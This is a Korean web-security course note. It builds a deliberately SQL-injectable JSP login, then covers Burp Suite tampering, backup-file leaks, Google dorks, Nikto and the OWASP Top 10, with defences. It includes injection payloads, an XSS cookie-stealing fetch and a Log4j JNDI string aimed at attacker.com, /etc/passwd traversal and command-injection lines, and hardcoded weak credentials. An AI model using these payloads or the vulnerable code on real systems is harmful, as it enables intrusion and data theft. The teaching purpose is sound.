```bash
$ mysql -u root
```

**외부 접속 계정 생성**:

```sql
-- 계정 생성 (모든 IP에서 접속 허용)
CREATE USER 'mydb'@'%' IDENTIFIED BY '1234';

-- 권한 부여
GRANT ALL PRIVILEGES ON *.* TO 'mydb'@'%';

-- 권한 반영
FLUSH PRIVILEGES;
```

**IP 제한 계정** (보안 강화):

```sql
-- 특정 IP에서만 접속 허용
CREATE USER 'mydb'@'192.168.1.100' IDENTIFIED BY '1234';
GRANT ALL PRIVILEGES ON *.* TO 'mydb'@'192.168.1.100';
```

### 🧪 접속 테스트

**WAS 서버에서 DB 서버로 접속**:

```bash
# MariaDB 클라이언트 설치
$ sudo apt install mariadb-client

# 원격 접속 테스트
$ mysql -u mydb -p -h 192.168.1.139
Enter password: 1234
```

✅ **접속 성공 확인**

---

## 2️⃣ 데이터베이스 및 테이블 생성

### 📊 SQL 쿼리 구조

**기본 CRUD 작업**:

| **작업** | **SQL 명령어** |
|:-:|:-:|
| Create | INSERT |
| Read | SELECT |
| Update | UPDATE |
| Delete | DELETE / DROP |

### 💾 CLOUD_DB 데이터베이스 생성

```sql
-- 기존 DB 삭제 (있을 경우)
DROP DATABASE IF EXISTS CLOUD_DB;

-- 새 DB 생성
CREATE DATABASE CLOUD_DB;

-- DB 사용 선언
USE CLOUD_DB;
```

### 👥 USER_INFO 테이블 생성

```sql
CREATE TABLE USER_INFO (
    UID INT AUTO_INCREMENT PRIMARY KEY,
    UNAME VARCHAR(50) NOT NULL,
    PASS VARCHAR(100) NOT NULL,
    PROFILE VARCHAR(200),
    PRIORITY INT DEFAULT 999
);
```

**필드 설명**:

| **필드** | **타입** | **설명** |
|:-:|:-:|:-:|
| UID | INT | 사용자 고유 ID (자동 증가) |
| UNAME | VARCHAR(50) | 사용자 이름 |
| PASS | VARCHAR(100) | 비밀번호 |
| PROFILE | VARCHAR(200) | 프로필 정보 |
| PRIORITY | INT | 우선순위 (0=관리자, 999=일반 사용자) |

### ➕ 사용자 데이터 삽입

```sql
INSERT INTO USER_INFO (UNAME, PASS, PROFILE, PRIORITY) VALUES
('admin', '1234', 'Administrator', 0),
('mydb', 'ABCD1234', 'Developer', 9),
('user1', 'password123', 'Regular User', 999),
('user2', 'qwerty', 'Regular User', 999);
```

### 🔍 데이터 조회

**전체 데이터 조회**:

```sql
SELECT * FROM USER_INFO;
```

**조건부 조회 (WHERE 절)**:

```sql
-- 로그인 검증 쿼리
SELECT * FROM USER_INFO
WHERE UNAME = 'admin' AND PASS = '1234';
```

**조회 결과**:

```
+-----+-------+------+---------------+----------+
| UID | UNAME | PASS | PROFILE       | PRIORITY |
+-----+-------+------+---------------+----------+
|   1 | admin | 1234 | Administrator |        0 |
+-----+-------+------+---------------+----------+
```

✅ **로그인 성공** (데이터 1개 반환)

**실패 케이스**:

```sql
SELECT * FROM USER_INFO
WHERE UNAME = 'admin' AND PASS = 'wrong';
```

**조회 결과**:

```
Empty set (0.00 sec)
```

❌ **로그인 실패** (데이터 0개 반환)

---

## 3️⃣ JSP 로그인 페이지 구현

### 🖥️ 백엔드: login.jsp

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" %>
<%@ page import="java.sql.*" %>
<%
    // 클라이언트로부터 파라미터 받기
    String uid = request.getParameter("username");
    String pwd = request.getParameter("password");

    // DB 연결 정보
    String url = "jdbc:mariadb://192.168.1.139:3306/CLOUD_DB";
    String dbUser = "mydb";
    String dbPass = "1234";

    Connection conn = null;
    PreparedStatement stmt = null;
    ResultSet rs = null;

    try {
        // DB 연결
        Class.forName("org.mariadb.jdbc.Driver");
        conn = DriverManager.getConnection(url, dbUser, dbPass);

        // SQL 쿼리 (취약한 버전!)
        String sql = "SELECT * FROM USER_INFO WHERE UNAME = '" + uid + "' AND PASS = '" + pwd + "'";
        stmt = conn.prepareStatement(sql);
        rs = stmt.executeQuery();

        // 결과 확인
        if (rs.next()) {
            // 로그인 성공
            response.sendRedirect("/index.html");
        } else {
            // 로그인 실패
            response.sendRedirect("/login.jsp");
        }
    } catch (Exception e) {
        out.println("Error: " + e.getMessage());
    } finally {
        if (rs != null) rs.close();
        if (stmt != null) stmt.close();
        if (conn != null) conn.close();
    }
%>
```

### 🌐 프론트엔드: login.html

```html
<!DOCTYPE html>
<html>
<head>
    <title>로그인</title>
</head>
<body>
    <h2>로그인</h2>
    <form action="/login.jsp" method="POST">
        <label>아이디:</label>
        <input type="text" id="username" name="username"><br><br>

        <label>비밀번호:</label>
        <input type="password" id="password" name="password"><br><br>

        <button type="submit">로그인</button>
    </form>
</body>
</html>
```

---

## 4️⃣ SQL 인젝션 공격 원리

### ⚠️ 취약한 쿼리 구조

**정상 쿼리**:

```sql
SELECT * FROM USER_INFO
WHERE UNAME = 'admin' AND PASS = '1234'
```

**SQL 인젝션 공격**:

```sql
-- 입력값:
-- username: admin
-- password: x' OR '1'='1

-- 생성되는 쿼리:
SELECT * FROM USER_INFO
WHERE UNAME = 'admin' AND PASS = 'x' OR '1'='1'
```

### 🔓 공격 성공 원리

```mermaid
graph TD
    A[WHERE 절 평가] --> B{UNAME = 'admin'}
    B -->|참| C{PASS = 'x'}
    C -->|거짓| D{OR '1'='1'}
    D -->|참| E[전체 조건: 참]

    B2[다른 경로] --> D2{OR '1'='1'}
    D2 -->|항상 참| E2[전체 조건: 참]

    E --> F[모든 사용자 정보 반환]
    E2 --> F
```

**논리 연산**:

```
(UNAME = 'admin' AND PASS = 'x') OR '1'='1'
         (거짓)                OR    (참)
                    = 참
```

💡 **핵심**: OR 연산에서 한쪽만 참이면 전체가 참!

### 🎯 다양한 SQL 인젝션 페이로드

| **공격 페이로드** | **설명** |
|:-:|:-:|
| `' OR '1'='1` | 항상 참 조건 |
| `' OR 1=1 --` | 뒤쪽 쿼리 주석 처리 |
| `admin'--` | 패스워드 검증 우회 |
| `' UNION SELECT ...` | 다른 테이블 데이터 조회 |
| `'; DROP TABLE USER_INFO--` | 테이블 삭제 (매우 위험!) |

---

## 5️⃣ 클라이언트 사이드 검증의 한계

### 📝 미션 1: JavaScript 비밀번호 길이 검증

**요구사항**: 비밀번호 8자 이상 입력 강제

**구현** (JavaScript):

```html
<form action="/login.jsp" method="POST" onsubmit="return validatePassword()">
    <input type="text" name="username">
    <input type="password" id="password" name="password">
    <button type="submit">로그인</button>
</form>

<script>
function validatePassword() {
    var password = document.getElementById("password").value;
    if (password.length < 8) {
        alert("비밀번호는 8자 이상 입력해주세요!");
        return false;  // 폼 제출 취소
    }
    return true;  // 폼 제출 허용
}
</script>
```

**문제점**: 클라이언트(브라우저)에서만 검증!

### 🔓 미션 2: Burp Suite로 검증 우회

**공격 시나리오**:

```mermaid
sequenceDiagram
    participant User as 공격자
    participant Browser as 브라우저
    participant Burp as Burp Suite
    participant Server as 서버

    User->>Browser: 비밀번호 "12345678" 입력 (8자)
    Browser->>Browser: JavaScript 검증 통과
    Browser->>Burp: POST 요청 전송
    Note over Burp: Intercept ON

    Burp->>Burp: 요청 가로채기
    User->>Burp: 비밀번호를 "1234"로 변조
    Burp->>Server: 변조된 요청 전송
    Server->>Server: 로그인 성공! (DB에는 1234 저장됨)
```

**Burp Suite 설정**:

1. **Proxy → Intercept → Intercept is on**
2. 브라우저에서 로그인 시도
3. Burp Suite에서 요청 가로채기
4. `password=12345678`을 `password=1234`로 변경
5. **Forward** 클릭

**변조 전**:

```http
POST /login.jsp HTTP/1.1
Host: 192.168.1.100
Content-Type: application/x-www-form-urlencoded

username=admin&password=12345678
```

**변조 후**:

```http
POST /login.jsp HTTP/1.1
Host: 192.168.1.100
Content-Type: application/x-www-form-urlencoded

username=admin&password=1234
```

✅ **로그인 성공!** (JavaScript 검증 우회)

💡 **교훈**: **클라이언트 사이드 검증은 보안이 아닙니다!**

---

## 6️⃣ 방어 기법

### 🛡️ 1. Prepared Statement 사용

**취약한 코드**:

```java
String sql = "SELECT * FROM USER_INFO WHERE UNAME = '" + uid + "' AND PASS = '" + pwd + "'";
```

**안전한 코드** (Prepared Statement):

```java
String sql = "SELECT * FROM USER_INFO WHERE UNAME = ? AND PASS = ?";
PreparedStatement stmt = conn.prepareStatement(sql);
stmt.setString(1, uid);  // 자동으로 이스케이프 처리
stmt.setString(2, pwd);
ResultSet rs = stmt.executeQuery();
```

**효과**: 입력값을 문자열로만 처리하여 SQL 구문으로 해석되지 않음

### 🛡️ 2. 서버 사이드 검증

```java
// 비밀번호 길이 검증 (서버에서!)
if (pwd.length() < 8) {
    response.sendRedirect("/login.jsp?error=password_too_short");
    return;
}
```

### 🛡️ 3. 입력값 필터링

```java
// 특수문자 차단
String filtered = uid.replaceAll("[^a-zA-Z0-9]", "");
```

### 🛡️ 4. 최소 권한 원칙

```sql
-- DB 계정에 최소 권한만 부여
GRANT SELECT, INSERT, UPDATE ON CLOUD_DB.* TO 'webapp'@'%';
-- DROP, ALTER 등 위험한 권한은 제외
```

---

## ✅ Section 4 핵심 요약

### 1. SQL 인젝션 원리

```
취약한 쿼리: "SELECT * FROM users WHERE id='" + input + "'"
공격: input = "' OR '1'='1"
결과: WHERE id='' OR '1'='1'  →  항상 참
```

### 2. 클라이언트 vs 서버 검증

```
❌ 클라이언트 검증: 브라우저에서 우회 가능
✅ 서버 검증: 반드시 서버에서도 검증 필요
```

### 3. 방어 기법

```
1. Prepared Statement (필수!)
2. 입력값 필터링
3. 서버 사이드 검증
4. 최소 권한 DB 계정
```

---

**Section 4 완료** ✅
# Section 5: OWASP TOP 10 및 웹 공격 방법론

---

## 📋 학습 목표

1. 네트워크 구성 및 DMZ 이해
2. 해킹 공격 단계별 절차 (정찰 → 침투 → 탈취)
3. 정보 수집 기법 (백업 파일, 디렉터리 구조)
4. Burp Suite, Nikto, F12 개발자 도구 활용
5. Google Hacking 기법
6. **OWASP TOP 10 취약점 완벽 분석**

---

## 1️⃣ 네트워크 구성과 공격 경로

### 🏢 3-Tier 네트워크 아키텍처

**전통적인 엔터프라이즈 구성**:

```mermaid
graph TB
    subgraph "외부 인터넷"
        User[일반 사용자]
        Attacker[공격자]
    end

    subgraph "방화벽 1"
        FW1[Firewall<br/>포트 80/443만 허용]
    end

    subgraph "DMZ 존 (비무장지대)"
        Web[웹 서버<br/>Nginx/Apache]
    end

    subgraph "방화벽 2"
        FW2[내부 방화벽<br/>WAS → DB만 허용]
    end

    subgraph "내부 네트워크 (WAS 계층)"
        WAS[WAS 서버<br/>Tomcat/JBoss]
        Admin[관리자 서버]
    end

    subgraph "데이터베이스 계층"
        DB[(Database<br/>MySQL/Oracle)]
    end

    User -->|HTTP 요청| FW1
    Attacker -->|HTTP 요청| FW1
    FW1 -->|포트 80/443| Web
    Web -->|백엔드 요청| FW2
    FW2 --> WAS
    WAS --> DB
    Admin -.->|SSH 접근| WAS
```

### 🔓 3-Tier 구조 침투 시나리오

**공격 단계별 진행**:

| **단계** | **공격자 행동** | **목표** |
|:-:|:-:|:-:|
| 1단계 | 웹 서버(DMZ) 해킹 | 외부 접근 가능한 유일한 진입점 |
| 2단계 | 웹 서버에서 정찰 | 내부 네트워크 스캔, WAS 서버 탐색 |
| 3단계 | WAS 서버 침투 | login.jsp에서 DB 정보 탈취 |
| 4단계 | DB 서버 접근 | 최종 목표: 회원 정보 탈취 |

**실제 침투 과정**:

```
[공격자] → [웹 서버 해킹 성공]
    ↓
[웹 서버 내부에서 네트워크 스캔]
    - WAS 서버 발견 (192.168.10.20)
    - 관리자 서버 발견 (192.168.10.30, 비밀번호: 1234)
    ↓
[관리자 서버 침투]
    - Xshell 자동 로그인 설정 발견
    - WAS 서버 접근 권한 획득
    ↓
[WAS 서버 소스 코드 탈취]
    - login.jsp 분석
    - DB 접속 정보 발견 (IP, ID, PW)
    ↓
[DB 서버 접근 성공]
    - 회원 정보 전체 다운로드
    - 백도어 설치
```

### 🧱 DMZ 존의 역할

**DMZ (Demilitarized Zone, 비무장지대)**:

- **목적**: 외부 사용자에게 서비스 제공하면서도 내부 네트워크 보호
- **특징**:
  - 외부에서 직접 접근 가능한 **유일한 영역**
  - 웹 서버만 배치 (정적 콘텐츠, 프록시 역할)
  - 내부 네트워크로의 직접 접근 차단

**방화벽 정책 예시**:

```bash
# 방화벽 1 (외부 → DMZ)
iptables -A FORWARD -p tcp --dport 80 -j ACCEPT   # HTTP 허용
iptables -A FORWARD -p tcp --dport 443 -j ACCEPT  # HTTPS 허용
iptables -A FORWARD -j DROP                       # 나머지 차단

# 방화벽 2 (DMZ → 내부)
iptables -A FORWARD -s 192.168.1.0/24 -d 192.168.10.0/24 -p tcp --dport 8080 -j ACCEPT  # WAS만 허용
iptables -A FORWARD -j DROP
```

💡 **핵심**: 웹 서버가 해킹당해도 내부 네트워크는 **별도 방화벽으로 보호**

---

## 2️⃣ 해킹 공격 단계 (Kill Chain)

### 📊 공격 생명주기 (Cyber Kill Chain)

```mermaid
graph LR
    A[1. 공격 대상 선정] --> B[2. 정보 수집<br/>Reconnaissance]
    B --> C[3. 취약점 분석<br/>Scanning]
    C --> D[4. 침투<br/>Exploitation]
    D --> E[5. 권한 상승<br/>Privilege Escalation]
    E --> F[6. 데이터 탈취<br/>Exfiltration]
    F --> G[7. 백도어 설치<br/>Backdoor]
    G --> H[8. 흔적 제거<br/>Cover Tracks]
```

### 🎯 1단계: 공격 대상 선정

**선정 기준**:

- **방문자가 많은 사이트**: 대규모 데이터 확보 가능
- **취약점이 알려진 사이트**: 공개된 CVE 존재
- **관리 소홀한 사이트**: 오래된 프레임워크 사용

**모의해킹(Pentesting) 시나리오**:

```
클라이언트(기업) → 보안 업체
"우리 시스템의 보안 취약점을 찾아주세요"

[공격 대상 목록 제공]
- www.company.com (메인 사이트)
- admin.company.com (관리자 페이지)
- api.company.com (REST API)
- mobile.company.com (모바일 앱 백엔드)
```

### 🔍 2단계: 정보 수집 (Information Gathering)

**수집 대상 정보**:

| **정보 유형** | **수집 방법** | **활용** |
|:-:|:-:|:-:|
| 웹 서버 종류 | HTTP 헤더 분석 | 알려진 취약점 검색 |
| 프레임워크 버전 | 에러 페이지, 메타 태그 | CVE 데이터베이스 조회 |
| 디렉터리 구조 | 크롤링, 백업 파일 | 숨겨진 페이지 발견 |
| DB 종류 | 에러 메시지 | SQL 인젝션 페이로드 선택 |
| 개발 언어 | 파일 확장자 (.jsp, .php) | 공격 기법 결정 |

**포트 스캔 예시**:

```bash
# Nmap으로 포트 스캔
$ nmap -sV -p- target.com

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.4
80/tcp   open  http       nginx 1.18.0
443/tcp  open  ssl/http   nginx 1.18.0
3306/tcp open  mysql      MySQL 5.7.32
8080/tcp open  http-proxy Apache Tomcat 8.5.50
```

💡 **발견**: Tomcat 8.5.50 → Log4j 취약점 존재 가능성!

### 🕵️ 3단계: 취약점 분석

**Log4j 취약점 예시 (CVE-2021-44228)**:

```java
// 취약한 Tomcat 8.5.50에서 발견
logger.info("User input: " + userInput);

// 공격자가 입력한 값
userInput = "${jndi:ldap://attacker.com/evil}"

// 결과: 원격 코드 실행 (RCE)
```

### 4️⃣ 4단계: 공격 실행 및 침투

**공격 성공 → 다음 단계**:

1. **백도어 설치**: 재침투 용이
2. **로그 삭제**: `/var/log/` 내역 제거
3. **시간 조작**: 포렌식 분석 방해
4. **데이터 탈취**: 압축 후 외부 전송

---

## 3️⃣ 백업 파일 취약점

### 📁 위험한 백업 파일 패턴

**개발자가 남기는 백업 파일**:

| **파일명** | **생성 이유** | **위험도** |
|:-:|:-:|:-:|
| login.jsp.bak | 수동 백업 | ⚠️⚠️⚠️ |
| login.jsp.bk | 짧은 확장자 선호 | ⚠️⚠️⚠️ |
| login.jsp.old | 구버전 보관 | ⚠️⚠️ |
| login.jsp.backup | 명시적 백업 | ⚠️⚠️⚠️ |
| login.jsp~ | vi 편집기 자동 백업 | ⚠️⚠️ |
| .login.jsp.swp | vi 비정상 종료 | ⚠️⚠️⚠️ |

### 💣 .swp 파일 생성 시나리오

**vi 편집기 비정상 종료**:

```bash
# 1. 파일 편집 시작
$ vi login.jsp

# 2. Ctrl+Z로 백그라운드 전환
[사용자가 Ctrl+Z 입력]

# 3. 프로세스 확인
$ ps -ef | grep vi
user  12345  1234  0 14:30 pts/0  00:00:00 vi login.jsp

# 4. 강제 종료
$ kill -9 12345

# 5. swap 파일 생성 확인
$ ls -la
-rw-r--r-- 1 user user  4096 Dec 18 14:30 .login.jsp.swp
```

**공격자의 악용**:

```bash
# 외부에서 swap 파일 직접 접근
$ curl http://target.com/webapp/.login.jsp.swp

# 결과: DB 접속 정보 노출
String url = "jdbc:mysql://192.168.1.139:3306/CLOUD_DB";
String dbUser = "mydb";
String dbPass = "1234";
```

### 🛡️ 방어 기법

**1. 웹 루트에 백업 파일 저장 금지**:

```bash
# 잘못된 방법 ❌
/var/www/html/
├── login.jsp
├── login.jsp.bak     # 웹에서 접근 가능!
└── login.jsp.swp     # 웹에서 접근 가능!

# 올바른 방법 ✅
/var/backups/webapp/  # 웹 루트 외부
├── login.jsp.bak
└── login.jsp.old
```

**2. .htaccess로 백업 파일 차단 (Apache)**:

```apache
<FilesMatch "\.(bak|old|backup|swp|~)$">
    Order allow,deny
    Deny from all
</FilesMatch>
```

**3. Nginx 설정**:

```nginx
location ~* \.(bak|old|backup|swp|~)$ {
    deny all;
    return 404;
}
```

---

## 4️⃣ Burp Suite를 이용한 정보 수집

### 🕸️ 사이트 맵 자동 생성

**Burp Suite 프록시 설정**:

```
1. Proxy → Intercept → Intercept is on
2. 브라우저에서 타겟 사이트 접속 (예: hanbit.co.kr)
3. Burp Suite에서 요청 확인 → Forward
4. Target → Site map 탭 확인
```

**수집되는 정보**:

```
hanbit.co.kr
├── _next/
│   ├── static/
│   │   ├── css/
│   │   └── js/
│   └── academy/
├── book/
│   ├── list.html
│   └── detail.html?id=123
└── event/
    └── promotion.html
```

### 📊 디렉터리 구조 분석의 중요성

**취약점 추론 예시**:

```
발견된 디렉터리 구조:
/upload/           # 파일 업로드 폴더
/admin/board/      # 관리자 게시판
/backup/           # 백업 파일 위치

공격 시나리오:
1. /upload/ 에 웹쉘 업로드 시도
2. /admin/board/ 직접 접근 (인증 우회 시도)
3. /backup/ 에서 소스 코드 다운로드
```

### 🔄 크롤링 vs 수동 탐색

**자동 크롤링 도구**:

- **Wget**: `wget --mirror --no-parent http://target.com`
- **HTTrack**: GUI 기반 웹사이트 복사
- **Burp Suite Pro**: 자동 스캔 기능 (유료)

**Burp Suite Community 한계**:

- ❌ 자동 크롤링 기능 없음
- ✅ 수동 탐색 시 자동 매핑
- ✅ 요청/응답 가로채기 및 변조

---

## 5️⃣ F12 개발자 도구 활용

### 🛠️ Chrome/Edge DevTools

**Network 탭 - 로딩 시간 분석**:

```
# 페이지 로드 시간: 3500ms

요청별 시간:
- index.html       120ms
- style.css        80ms
- script.js        200ms
- logo.png         150ms
- api/data.json    2800ms  ← 병목!
```

**Headers 탭 - 요청/응답 헤더**:

```http
# Request Headers
GET /api/data HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Cookie: sessionid=abc123xyz

# Response Headers
HTTP/1.1 200 OK
Server: nginx/1.18.0        ← 서버 정보 노출!
X-Powered-By: PHP/7.4.3     ← PHP 버전 노출!
Set-Cookie: sessionid=abc123xyz; HttpOnly
```

### 🔐 Application 탭 - 세션 및 쿠키

**세션 하이재킹 시나리오**:

```javascript
// 1. 정상 로그인 후 세션 확인
// Application → Cookies → sessionid
sessionid: f8a7b9c2d3e4f5g6

// 2. 공격자가 XSS로 세션 탈취
<script>
  fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>

// 3. 공격자가 탈취한 세션으로 로그인
// 새 브라우저에서 쿠키 수동 설정 → 로그인 우회!
```

**방어: HttpOnly 플래그**:

```http
Set-Cookie: sessionid=abc123; HttpOnly; Secure; SameSite=Strict
```

- `HttpOnly`: JavaScript 접근 차단
- `Secure`: HTTPS에서만 전송
- `SameSite`: CSRF 공격 방어

### 🧩 Elements 탭 - HTML 구조 분석

**숨겨진 입력 필드 발견**:

```html
<form action="/login" method="POST">
    <input type="text" name="username">
    <input type="password" name="password">
    <!-- 숨겨진 필드 발견! -->
    <input type="hidden" name="isAdmin" value="0">
    <button type="submit">로그인</button>
</form>
```

**공격 시도**:

```javascript
// Console 탭에서 실행
document.querySelector('input[name="isAdmin"]').value = '1';
// 폼 제출 → 관리자 권한으로 로그인 시도
```

---

## 6️⃣ Google Hacking 기법

### 🔎 Google Dorks (검색 연산자)

**고급 검색 연산자 목록**:

| **연산자** | **기능** | **예시** |
|:-:|:-:|:-:|
| `site:` | 특정 도메인 내 검색 | `site:co.kr admin` |
| `filetype:` | 파일 형식 지정 | `filetype:pdf 보안` |
| `inurl:` | URL에 특정 문자 포함 | `inurl:login.php` |
| `intitle:` | 제목에 특정 문자 포함 | `intitle:"관리자 페이지"` |
| `intext:` | 본문에 특정 문자 포함 | `intext:password` |
| `cache:` | 캐시된 페이지 보기 | `cache:example.com` |
| `link:` | 링크 포함 페이지 | `link:naver.com` |

### 🎯 실전 Google Hacking 예시

**1. 관리자 페이지 찾기**:

```
site:co.kr inurl:admin
```

**결과**:
```
- https://example.co.kr/admin/login.php
- https://shop.co.kr/admin/dashboard
- https://mvest.co.kr/admin/notice  ← 직접 접근 가능!
```

**2. 취약한 설정 파일 찾기**:

```
filetype:sql "INSERT INTO" "password"
```

**결과**: DB 덤프 파일 노출 (ID, 비밀번호 포함)

**3. 디렉터리 리스팅 페이지 찾기**:

```
intitle:"Index of /" "Parent Directory"
```

**결과**:
```
Index of /backup/
[DIR] 2024-01-15 10:30  config/
[FILE] 2024-01-15 10:32  database.sql
[FILE] 2024-01-15 10:35  users.csv
```

**4. PPT 강의자료 찾기**:

```
"Burp Suite" filetype:pptx
```

**올바른 사용법**:

```
# 띄어쓰기 ❌
filetype: pptx

# 붙여쓰기 ✅
filetype:pptx
```

### 📚 Google Hacking Database (GHDB)

**유명 사이트**: https://www.exploit-db.com/google-hacking-database

**카테고리별 Dorks**:

- **Footholds**: 침투 가능한 진입점
- **Files Containing Passwords**: 비밀번호 포함 파일
- **Sensitive Directories**: 민감한 디렉터리
- **Web Server Detection**: 서버 정보 탐지
- **Vulnerable Files**: 취약한 파일

---

## 7️⃣ Nikto - 웹 취약점 스캐너

### 🔧 Nikto 설치 및 실행

**Windows 설치 (요구사항)**:

```bash
# .NET Framework 2.0 필요
1. .NET Framework 2.0 다운로드 및 설치
2. Nikto MSI 또는 Setup.exe 실행

# Windows 11에서 .NET 3.5 활성화
윈도우 검색 → "Windows 기능 켜기/끄기"
→ .NET Framework 3.5 체크
→ 확인 → 재부팅
```

**실행 화면**:

```
Target URL: http://192.168.1.100
Port: 80
[Load Nikto Database] 클릭 → "Loaded 6500 signatures"
[Start] 클릭
```

### 📋 Nikto 스캔 결과 예시

**취약점 탐지 메시지**:

```
+ Server: nginx/1.18.0
+ Retrieved x-powered-by header: PHP/7.4.3
+ The anti-clickjacking X-Frame-Options header is not present.
+ OSVDB-3268: /backup/: Directory indexing found.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8 requests: 0 error(s) and 6 item(s) reported on remote host
```

### 🛑 스캔 요청 패턴

**디렉터리 트래버설 테스트**:

```http
GET /../../../../../../../../etc/passwd HTTP/1.1
GET /%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
GET /%c1%1c%c1%1c%c1%1c/etc/passwd HTTP/1.1
```

**인코딩 우회 시도**:

```
./  →  %2e%2f
./  →  %c1%1c
```

### ⚠️ 윤리적 사용 원칙

```
✅ 허용된 경우:
- 자신이 소유한 시스템
- 계약된 모의해킹 대상
- 취약점 점검 동의를 받은 시스템

❌ 금지:
- 허가 없는 외부 사이트 스캔
- 대규모 트래픽 발생 (DoS 효과)
- 실제 데이터 탈취 시도
```

---

## 8️⃣ OWASP TOP 10 (2017/2021)

### 🏆 OWASP란?

**OWASP (Open Web Application Security Project)**:

- **목적**: 웹 애플리케이션 보안 향상
- **활동**: 보안 가이드, 도구, 문서 무료 배포
- **TOP 10**: 4년마다 가장 위험한 취약점 10개 발표

**최신 버전**:

- 2017년판
- 2021년판
- 2025년판 (Release Candidate)

### 📊 OWASP 위험 분류 체계

```mermaid
graph LR
    A[위협 요인<br/>Threat Agents] -->|공격 경로| B[보안 취약점<br/>Security Weakness]
    B -->|보안 통제 실패| C[기술적 영향<br/>Technical Impact]
    C --> D[비즈니스 영향<br/>Business Impact]

    style A fill:#ff9999
    style B fill:#ffcc99
    style C fill:#99ccff
    style D fill:#cc99ff
```

**단계별 설명**:

1. **위협 요인**: 공격자 (외부 해커, 내부자)
2. **공격 경로**: 정보 수집 → 취약점 분석 → 침투
3. **보안 취약점**: OWASP TOP 10에 해당하는 결함
4. **보안 통제**: 방화벽, IDS/IPS, WAF
5. **기술적 영향**: 데이터 탈취, 시스템 장악
6. **비즈니스 영향**: 고객 이탈, 법적 책임, 매출 손실

### 🔟 OWASP TOP 10 (2021년 기준)

---

#### **A01:2021 - 접근 통제 실패 (Broken Access Control)**

**설명**: 권한 검증 누락으로 인한 무단 접근

**공격 시나리오**:

```
정상 URL:
https://example.com/admin/
→ 로그인 필요 (인증 통과)

취약한 하위 URL:
https://example.com/admin/bbs/notice/
→ 직접 접근 가능! (인증 우회)
```

**코드 예시 (취약)**:

```jsp
<!-- notice.jsp -->
<%
    // 인증 검사 누락!
    // 바로 게시판 내용 출력
%>
<h1>공지사항 관리</h1>
<table>
    <% // DB에서 공지사항 조회 %>
</table>
```

**안전한 코드**:

```jsp
<%
    // 모든 페이지에서 권한 확인
    if (session.getAttribute("isAdmin") == null) {
        response.sendRedirect("/login.jsp");
        return;
    }
%>
```

**탐지율**: 전체 애플리케이션의 3.81%에서 발견

---

#### **A02:2021 - 암호화 실패 (Cryptographic Failures)**

**설명**: 민감 데이터의 암호화 누락 또는 약한 암호화

**취약점 예시**:

```java
// ❌ 평문 저장
String password = "1234";
db.execute("INSERT INTO users (pw) VALUES ('" + password + "')");

// ❌ 쉽게 복호화 가능한 Base64
String encoded = Base64.encode(password);  // MTIzNA==

// ✅ 안전한 해시 (bcrypt)
String hashed = BCrypt.hashpw(password, BCrypt.gensalt(12));
// $2a$12$Ab3...XyZ
```

**백업 파일 노출**:

```bash
# login.jsp.bak 파일 내용 노출
String dbUrl = "jdbc:mysql://192.168.1.139:3306/CLOUD_DB";
String dbUser = "mydb";
String dbPass = "1234";  ← 평문 노출!
```

**방어 기법**:

- 민감 데이터는 **bcrypt, Argon2** 등으로 해시
- HTTPS 강제 사용 (HTTP → HTTPS 리다이렉트)
- DB 컬럼 레벨 암호화 (AES-256)

---

#### **A03:2021 - 인젝션 (Injection)**

**설명**: 신뢰할 수 없는 데이터가 명령어로 해석됨

**1. SQL 인젝션**:

```sql
-- 정상 쿼리
SELECT * FROM users WHERE id='admin' AND pw='1234'

-- 공격 쿼리
SELECT * FROM users WHERE id='admin' AND pw='x' OR '1'='1'
-- 결과: 항상 참 → 로그인 성공
```

**2. 커맨드 인젝션**:

```bash
# 사용자 입력: 192.168.1.1; cat /etc/passwd
ping -c 1 192.168.1.1; cat /etc/passwd

# 결과: 시스템 명령어 실행!
```

**3. LDAP 인젝션**:

```ldap
(&(uid=admin)(password=*))  # 모든 비밀번호 매칭
```

**방어 기법**:

```java
// ✅ Prepared Statement
String sql = "SELECT * FROM users WHERE id=? AND pw=?";
PreparedStatement pstmt = conn.prepareStatement(sql);
pstmt.setString(1, userId);
pstmt.setString(2, userPw);
```

---

#### **A04:2021 - 안전하지 않은 설계 (Insecure Design)**

**설명**: 설계 단계에서의 보안 결함

**예시 1: 혼란스러운 URL 구조**:

```
관리자 접근 경로:
/admin/bbs/notice        ← 명확
/superuser/manage/notice ← 혼란 (중복 경로)

문제: 두 경로 모두 같은 기능 제공 → 통제 불가능
```

**예시 2: 비밀번호 재설정 취약점**:

```
1. 사용자: "비밀번호를 잊었습니다" 클릭
2. 시스템: 이메일로 재설정 링크 전송
3. 링크: https://example.com/reset?token=12345

문제: 토큰이 순차적 숫자 → 무작위 대입 가능
안전: 토큰 = UUID (550e8400-e29b-41d4-a716-446655440000)
```

**방어 기법**:

- 설계 단계에서 **위협 모델링** 수행
- **최소 권한 원칙** 적용
- **Secure by Default** (기본값을 안전하게)

---

#### **A05:2021 - 보안 설정 오류 (Security Misconfiguration)**

**설명**: 잘못된 설정으로 인한 취약점

**예시 1: 잘못된 사용자 권한**:

```nginx
# ❌ 위험
user root;  # 최고 권한으로 실행

# ✅ 안전
user www-data;  # 제한된 권한
```

**예시 2: 디렉터리 리스팅 활성화**:

```
Apache httpd.conf:
Options +Indexes  ← 디렉터리 목록 노출!

결과:
http://example.com/backup/
→ 파일 목록 전체 표시
```

**안전한 설정**:

```apache
Options -Indexes
```

**예시 3: 에러 메시지 노출**:

```php
// ❌ 위험
<?php
  die("MySQL Error: " . mysqli_error($conn));
?>

// ✅ 안전
<?php
  error_log("DB Error: " . mysqli_error($conn));
  die("An error occurred. Please contact support.");
?>
```

---

#### **A06:2021 - 취약하고 오래된 구성요소 (Vulnerable and Outdated Components)**

**설명**: 패치되지 않은 라이브러리/프레임워크 사용

**실제 사례**:

| **사건** | **취약 컴포넌트** | **영향** |
|:-:|:-:|:-:|
| Log4Shell (2021) | Log4j 2.x | 원격 코드 실행 (RCE) |
| Equifax 해킹 (2017) | Apache Struts | 1억 4천만 명 정보 유출 |
| 신천지 해킹 (2020) | 오래된 게시판 | 웹셸 업로드 성공 |

**Log4j 취약점 예시**:

```java
// 취약한 코드
logger.info("User input: " + userInput);

// 공격 페이로드
userInput = "${jndi:ldap://attacker.com/evil}"

